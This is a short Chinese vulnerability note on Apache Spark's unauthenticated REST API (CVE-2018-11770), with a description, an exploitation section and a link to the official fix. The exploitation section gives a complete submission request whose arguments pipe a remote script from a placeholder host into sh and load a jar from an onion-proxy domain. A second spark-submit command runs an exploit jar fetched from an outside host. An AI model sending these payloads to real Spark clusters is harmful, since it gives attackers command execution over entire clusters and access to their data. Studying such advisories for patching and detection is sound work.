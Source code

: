 ### 一 漏洞描述
Apache Spark 是专为大规模数据处理而设计的快速通用的计算引擎，是UC Berkeley AMP lab(加州大学伯克利分校的AMP实验室)所开源的类Hadoop MapReduce的通用并行框架。为了让使用者能够方便的控制系统进行计算和查看任务结果，Spark也提供了 WEB UI图形化界面和相应的 REST API来方便用户操作。

Spark作为大数据时代的”计算引擎”，一旦被攻破，企业的核心数据资产、计算能力、用户敏感数据都将被攻击者窃取；更进一步的，由于Spark自身的分布式特性，一个攻击点的攻破可能导致整个集群的沦陷。Spark权限设置不当，可能导致攻击者无需认证即可通过该 REST API来操作Spark创建任务、删除任务、查看任务结果等，从而最终获得执行任意指令的能力。

### 二 漏洞利用
```
POST /v1/submissions/create
host:xxxx.xxx.xx:6066

{ "action": "CreateSubmissionRequest", "clientSparkVersion": "2.1.0", "appArgs": [ "curl x.x.x.x/y.sh|sh" ], "appResource": "https://xxxx.onion.plus/SimpleApp.jar", "environmentVariables": { "SPARK_ENV_LOADED": "1" }, "mainClass": "SimpleApp", "sparkProperties": { "spark.jars": "https://xxxxxxxx.onion.plus/SimpleApp.jar", "spark.driver.supervise": "false", "spark.app.name": "SimpleApp", "spark.eventLog.enabled": "false", "spark.submit.deployMode": "cluster", "spark.master": "spark://x.x.x.x:6066" } }
```

```
bin/spark-submit --master spark://your-ip:7077 --deploy-mode cluster --class Exploit http://vulhub.yster.live/1.jar id
```

### 三 漏洞修复
参考官方（https://spark.apache.org/security.html）CVE-2018-11770修复方案

> 参考链接  
> 利用: https://blog.csdn.net/weixin_54648419/article/details/121007204  
> https://spark.apache.org/security.html  
> 阿里云公告: https://developer.aliyun.com/article/620027  
> https://medium.com/@srowen/im-a-member-of-the-apache-spark-pmc-897bc1d328
